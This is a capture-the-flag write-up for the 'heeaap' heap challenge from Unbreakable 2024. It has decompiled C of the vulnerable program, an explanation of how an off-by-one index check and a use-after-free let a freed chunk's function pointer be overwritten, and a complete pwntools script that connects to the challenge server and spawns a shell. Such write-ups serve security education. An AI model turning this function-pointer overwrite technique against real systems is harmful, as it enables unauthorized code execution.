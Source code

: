 ```yaml
---
title: heeaap
date: 2024-04-07T14:23:28+03:00
description: Writeup for heeaap [Unbreakable 2024]
type: writeup
author: sunbather
tags:
- pwn
- heap
draft: false
---
```

___

## Challenge Description

Since strground was "too hard"...

## Intuition

We get a classic, easy heap challenge, with a UAF bug. Two different kind of structures are allocated on the heap, one of 64 bytes and one of 72. From each of them, we control the first 52, respectively 60 bytes. At the end of each, a function pointer for a print function is being assigned. We also have a win function in the binary, that simply calls ``system("/bin/sh")``. Cleaned up main function below:

```c
void main(void)
{
  long lVar1;
  ctf_struct *ptr;
  desc_struct *pdVar2;
  long in_FS_OFFSET;
  undefined4 menu_opt;
  int print_idx;
  long details [7];
  uint idx;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  do {
    if ((3 < (int)i) || (3 < (int)j)) {
      if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
        __stack_chk_fail();
      }
      return;
    }
    puts("--------------------------");
    puts("1. Create new ctf");
    puts("2. Create ctf description");
    puts("3. Delete ctf");
    puts("4. Delete description");
    puts("5. Print ctf && description");
    puts("--------------------------");
    fwrite("Choose: ",1,8,stdout);
    __isoc99_scanf("%d",&menu_opt);
    switch(menu_opt) {
    default:
      puts("Not a choice");
      exit(0);
    case 1:
      if ((int)j < (int)i) {
        puts("You need to create a description for every ctf!");
        exit(0);
      }
      details[0] = 0;
      details[1] = 0;
      details[2] = 0;
      details[3] = 0;
      details[4] = 0;
      details[5] = 0;
      details[6] = details[6] & 0xffffffff00000000;
      fwrite("Enter ctf details: ",1,0x13,stdout);
      read(0,details,0x34);
      idx = i;
      ptr = (ctf_struct *)malloc(0x40);
      ctfs[(int)idx] = ptr;
      ptr = ctfs[(int)i];
      *(long *)ptr->description = details[0];
      *(long *)(ptr->description + 8) = details[1];
      *(long *)(ptr->description + 0x10) = details[2];
      *(long *)(ptr->description + 0x18) = details[3];
      *(long *)(ptr->description + 0x20) = details[4];
      *(long *)(ptr->description + 0x28) = details[5];
      *(undefined4 *)(ptr->description + 0x30) = (undefined4)details[6];
      ctfs[(int)i]->print_func = print_current_ctf;
      printf("\nCtf created at index: %d\n",(ulong)i);
      i = i + 1;
      break;
    case 2:
      if ((int)i < (int)j) {
        puts("You need to create a ctf for every description!");
        exit(0);
      }
      details[0] = 0;
      details[1] = 0;
      details[2] = 0;
      details[3] = 0;
      details[4] = 0;
      details[5] = 0;
      details[6] = 0;
      fwrite("Enter ctf description: ",1,0x17,stdout);
      read(0,details,0x3c);
      idx = j;
      pdVar2 = (desc_struct *)malloc(0x48);
      descriptions[(int)idx] = pdVar2;
      pdVar2 = descriptions[(int)j];
      *(long *)pdVar2->details = details[0];
      *(long *)(pdVar2->details + 8) = details[1];
      *(long *)(pdVar2->details + 0x10) = details[2];
      *(long *)(pdVar2->details + 0x18) = details[3];
      *(long *)(pdVar2->details + 0x20) = details[4];
      *(long *)(pdVar2->details + 0x28) = details[5];
      *(long *)(pdVar2->details + 0x30) = details[6];
      *(undefined4 *)(pdVar2->details + 0x38) = 0;
      descriptions[(int)j]->print_desc = print_ctf_description;
      printf("\nDescription created at index: %d\n",(ulong)j);
      j = j + 1;
      break;
    case 3:
      if (i == 0) {
        puts("No ctfs created yet.");
        exit(0);
      }
      i = i - 1;
      free(ctfs[(int)i]);
      puts("\nDeleted ctf.\n");
      break;
    case 4:
      if (j == 0) {
        puts("No descriptions created yet.");
        exit(0);
      }
      j = j - 1;
      free(descriptions[(int)j]);
      puts("\nDeleted description.\n");
      break;
    case 5:
      if ((i == 0) || (j == 0)) {
        puts("No ctf or description.");
        exit(0);
      }
      fwrite("Select index: ",1,0xe,stdout);
      __isoc99_scanf("%d",&print_idx);
      if ((((int)i < print_idx) || ((int)j < print_idx)) || (print_idx < 0)) {
        puts("Not allowed");
        exit(0);
      }
      (*(code *)ctfs[print_idx]->print_func)(ctfs[print_idx]);
      (*(code *)descriptions[print_idx]->print_desc)(descriptions[print_idx]);
    }
  } while( true );
```

We created the structures in Ghidra struct editor so the decompilation is easier to read. The essential bug is at case 5, when we use the print functions stored in the function pointers. Notice how case 5 checks if the index we are requesting to print is bigger (strictly) than the current i, which should be the last position where a CTF + description combo is found. However, this is not actually true, ``i`` and ``j`` are the indices of the next free spots. Which means, by requesting exactly ``i`` or ``j`` we can print CTFs or descriptions that do not actually exist in our array.

In our case, if we free a CTF or a description and then allocate another one, the glibc heap allocator will reuse the one we've just freed. That, combined with bad input validation on case 5, will let us execute a Use-After-Free. We can, in theory, allocate the smaller structure (CTF), free it and then allocate the bigger structure. Since we control 60 bytes of the bigger structure, we can overwrite 8 bytes at the end of the first structure. Sadly, 4 bytes of the overwritten ones are structure padding, but we can still overwrite 4 bytes least significant bytes of the function pointer for the smaller structure. Which is great, because in little endian with no PIE, that’s all we need to overwrite it.

So the plan is:
1. Allocate dummy CTF & description (to bypass the print check: ``if ((i == 0) || (j == 0))`` )
2. Allocate CTF
3. Free CTF
4. Allocate description for which the last 4 bytes are the address of the win function
5. Print CTF with index 1

When we hit the last step, the line ``(*(code *)ctfs[print_idx]->print_func)(ctfs[print_idx]);`` will call the overwritten win function, giving us a shell.

## Solution

```py
#!/usr/bin/env python3

from pwn import *

#target = process("./heap")
target = remote("35.234.88.19", 32668)
win_addr = 0x004012db

def create_ctf(details):
    target.sendline(b"1")
    target.send(details)

def create_desc(description):
    target.sendline(b"2")
    target.send(description)

def delete_ctf():
    target.sendline(b"3")

def delete_desc():
    target.sendline(b"4")

def print_ctf(index):
    target.sendline(b"5")
    target.sendline(str(index).encode())

create_ctf(b".hidden" + b"a" * 45)
create_desc(b"d" * 60)

create_ctf(b"a" * 52)
delete_ctf()
create_desc(b"d" * 56 + p32(win_addr))

print_ctf(1)
target.interactive()
```
